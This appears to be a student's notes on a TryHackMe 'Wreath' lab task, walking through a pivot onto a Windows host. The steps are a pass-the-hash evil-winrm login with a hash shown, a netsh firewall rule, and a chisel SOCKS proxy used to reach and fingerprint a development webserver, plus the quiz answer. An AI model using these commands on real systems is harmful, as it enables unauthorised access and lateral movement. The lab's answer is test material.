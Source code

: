 We found two ports open in the previous task. RDP won't be of much use to us without credentials (or at least a hash, although Pass-the-Hash attacks are often restricted through RDP anyway); however, the webserver is worth looking into. Wreath told us that he worked on his website using a local environment on his own PC, so this bleeding-edge version may contain some vulnerabilities that we could use to exploit the target. Before we can do that, however, we must figure out how to access the development webserver on Wreath's PC from our attacking machine.

We have two immediate options for this: *Chisel*, and *Plink*.

If you followed the recommended route of using sshuttle to pivot from the webserver then a _chisel forward proxy_ is recommended here as it will be relatively easy to connect to through the sshuttle connection without requiring a relay -- look back at the Chisel task if you need help with this!

When using this option you will need to open up a port in the Windows firewall to allow the forward connection to be made. The syntax for opening a port using `netsh` looks something like this:  
`netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT`

Please use the `name-USERNAME` naming convention -- for example:  
`netsh advfirewall firewall add rule name="Chisel-MuirlandOracle" dir=in action=allow protocol=tcp localport=47000`  
![Demonstration of the above firewall rule through WinRM](https://assets.tryhackme.com/additional/wreath-network/31589c0e89b3.png)

Whether you choose the recommended option or not, get a pivot up and running!


![[AccesS to PC.svg]]

---

# Your job

1. For pivoting, we can use chisel. Run evil-winrm . #Attacking_Machine 
```
evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i 10.200.84.150 -s <chisel_windows.exe directory on #Attacking_Machine >
```

1. Open up a port for pivoting. #Evil-WinRM_shell 
```
netsh advfirewall firewall add rule name="Chisel-exec2" dir=in action=allow protocol=tcp localport=44444
```

2. Download  it from https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz/. #Attacking_Machine 

3. Decompress the .gz file. #Attacking_Machine 

4. Upload the chisel.exe file in #Evil-WinRM_shell  session.
```
upload chisel.exe
```

5. Setup chisel server forward socks proxy on #Evil-WinRM_shell 
```
./chisel.exe server -p 44444 --socks5
```

6. Install chisel on Kali Linux. #Attacking_Machine 
```
sudo apt install chisel
```

7. Run chisel client. #Attacking_Machine 
```
chisel client 10.200.84.150:44444 9090:socks
```

Now the socks proxy is opened on port 9090 of our port

8. Setup FoxyProxy: Ensure you setup a `SOCKS5` proxy with *foxyproxy*:
	 ![[Pivoting-20250126190740769.webp]]

9. Navigate to http://10.200.X.100.
	 ![[Pivoting-20250126190906256.webp]]

10. Install wappalyzer extension on your browers and see the results.
	![[Pivoting-20250126191308575.webp]]

Access the website in your web browser (using FoxyProxy if you used the recommended forward proxy, or directly if you used a port forward).

> [!Question]
>Using the Wappalyzer browser extension ([Firefox](https://addons.mozilla.org/en-GB/firefox/addon/wappalyzer/) | [Chrome](https://chrome.google.com/webstore/detail/wappalyzer/gppongmhjkpfnbhagpmjfkannfbllamg?hl=en)) or an alternative method, identify the server-side Programming language (including the version number) used on the website.
>`PHP 7.4.11`


**Next step: ** [[The Wonders of Git]]
